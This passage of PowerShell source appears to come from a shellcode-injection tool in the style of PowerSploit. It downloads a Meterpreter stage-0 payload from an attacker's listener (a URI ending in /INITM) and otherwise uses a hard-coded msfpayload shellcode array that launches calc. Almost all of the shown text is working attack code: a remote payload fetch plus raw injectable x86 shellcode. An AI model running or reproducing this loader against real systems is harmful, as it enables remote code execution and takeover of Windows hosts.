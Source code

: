         # Meterpreter expects 'INITM' in the URI in order to initiate stage 0. Awesome authentication, huh?
        $Request = "http$($SSL)://$($Lhost):$($Lport)/INITM"
        Write-Verbose "Requesting meterpreter payload from $Request"
        
        $Uri = New-Object Uri($Request)
        $WebClient = New-Object System.Net.WebClient
        $WebClient.Headers.Add('user-agent', "$UserAgent")
        
        try
        {
            [Byte[]] $Shellcode32 = $WebClient.DownloadData($Uri)
        }
        catch
        {
            Throw "$($Error[0].Exception.InnerException.InnerException.Message)"
        }
        [Byte[]] $Shellcode64 = $Shellcode32

    }
    elseif ($PSBoundParameters['Shellcode'])
    {
        # Users passing in shellcode  through the '-Shellcode' parameter are responsible for ensuring it targets
        # the correct architechture - x86 vs. x64. This script has no way to validate what you provide it.
        [Byte[]] $Shellcode32 = $Shellcode
        [Byte[]] $Shellcode64 = $Shellcode32
    }
    else
    {
        # Pop a calc... or whatever shellcode you decide to place in here
        # I sincerely hope you trust that this shellcode actually pops a calc...
        # Insert your shellcode here in the for 0xXX,0xXX,...
        # 32-bit payload
        # msfpayload windows/exec CMD="cmd /k calc" EXITFUNC=thread
        [Byte[]] $Shellcode32 = @(0xfc,0xe8,0x89,0x00,0x00,0x00,0x60,0x89,0xe5,0x31,0xd2,0x64,0x8b,0x52,0x30,0x8b,
                                  0x52,0x0c,0x8b,0x52,0x14,0x8b,0x72,0x28,0x0f,0xb7,0x4a,0x26,0x31,0xff,0x31,0xc0,
                                  0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,0x01,0xc7,0xe2,0xf0,0x52,0x57,
                                  0x8b,0x52,0x10,0x8b,0x42,0x3c,0x01,0xd0,0x8b,0x40,0x78,0x85,0xc0,0x74,0x4a,0x01,
                                  0xd0,0x50,0x8b,0x48,0x18,0x8b,0x58,0x20,0x01,0xd3,0xe3,0x3c,0x49,0x8b,0x34,0x8b,
                                  0x01,0xd6,0x31,0xff,0x31,0xc0,0xac,0xc1,0xcf,0x0d,0x01,0xc7,0x38,0xe0,0x75,0xf4,
                                  0x03,0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe2,0x58,0x8b,0x58,0x24,0x01,0xd3,0x66,0x8b,
                                  0x0c,0x4b,0x8b,0x58,0x1c,0x01,0xd3,0x8b,0x04,0x8b,0x01,0xd0,0x89,0x44,0x24,0x24,
                                  0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x58,0x5f,0x5a,0x8b,0x12,0xeb,0x86,0x5d,
                                  0x6a,0x01,0x8d,0x85,0xb9,0x00,0x00,0x00,0x50,0x68,0x31,0x8b,0x6f,0x87,0xff,0xd5,
                                  0xbb,0xe0,0x1d,0x2a,0x0a,0x68,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x3c,0x06,0x7c,0x0a,
                                  0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x00,0x53,0xff,0xd5,0x63,
                                  0x61,0x6c,0x63,0x00)